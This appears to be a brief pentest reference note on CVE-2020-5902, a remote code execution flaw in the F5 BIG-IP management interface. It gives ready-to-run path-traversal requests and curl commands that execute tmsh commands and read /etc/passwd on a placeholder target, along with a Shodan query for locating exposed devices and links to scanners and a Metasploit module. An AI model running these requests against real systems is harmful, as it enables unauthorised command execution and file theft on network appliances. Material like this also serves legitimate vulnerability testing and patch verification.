 # CVE-2020-5902

## Description

In BIG-IP versions 15.0.0-15.1.0.3, 14.1.0-14.1.2.5, 13.1.0-13.1.3.3, 12.1.0-12.1.5.1, and 11.6.1-11.6.5.1, the Traffic Management User Interface (TMUI), 
also referred to as the Configuration utility, has a Remote Code Execution (RCE) vulnerability in undisclosed pages.

## POC

#### GET /tmui/login.jsp/..;/tmui/system/user/authproperties.jsp
#### GET /tmui/login.jsp/..;/tmui/util/getTabSet.jsp?tabId=AnyMsgHereWillBeReflectedInTheResponse

## Tools

- https://github.com/aqhmal/CVE-2020-5902-Scanner
- https://github.com/dunderhay/CVE-2020-5902
- https://gist.github.com/Mad-robot/e8c5a81c87d14c7fe0413be2e912141f
- https://github.com/yassineaboukir/CVE-2020-5902 
- Shodan Query: title:"BIG-IP`&reg;`- Redirect"

## Exploit
- https://github.com/rapid7/metasploit-framework/pull/13807
```
curl -v -k  'https://TARGET/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'
```
##### Read File:

```
curl -v -k  'https://TARGET/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'

```
## Reference

- https://www.youtube.com/watch?v=J7WG2iqu9wI
- https://medium.com/@rapidsafeguard/f5-big-ip-vulnerability-cve-2020-5902-1116625f0150
